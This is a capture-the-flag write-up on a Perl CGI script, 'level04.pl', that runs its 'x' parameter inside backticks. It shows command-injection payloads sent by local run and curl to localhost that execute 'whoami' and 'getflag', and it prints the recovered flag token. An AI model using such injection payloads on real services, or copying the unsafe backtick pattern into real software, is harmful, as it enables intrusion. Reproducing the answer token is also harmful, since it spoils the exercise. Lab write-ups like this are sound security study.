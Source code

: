 # CTF Report — Level04 Perl Script Exploitation (English, detailed)

---

## Overview

This report documents the exploitation of a Perl CGI script (`level04.pl`) that accepts user input through a GET parameter `x`. The steps below follow the exact procedure you used to retrieve the flag, without altering any commands, inputs, or outputs.

---

## Script Analysis

The content of `level04.pl`:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

**Key points:**

* Accepts a CGI parameter `x`.
* Executes the parameter inside backticks with `echo $y`, allowing **command injection**.
* Prints the command output in the HTTP response.

---

## Exploitation Steps

### 1. Basic command execution via script

```bash
./level04.pl 'x=$(whoami)'
```

Output:

```
Content-type: text/html

level04
```

> The script executes `whoami` via the `x` parameter, confirming command injection works.

---

### 2. Exploiting via HTTP request

```bash
curl 'localhost:4747/level04.pl?x=`whoami`'
```

Output:

```
flag04
```

> Demonstrates that executing `whoami` remotely returns the user `flag04`.

---

### 3. Retrieving the flag

```bash
curl 'localhost:4747/level04.pl?x=`getflag`'
```

Output:

```
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

> Successfully executed the `getflag` command through command injection and retrieved the CTF token.

---

## Observed Flag

```
ne2searoevaevoem4ov4ar8ap
```
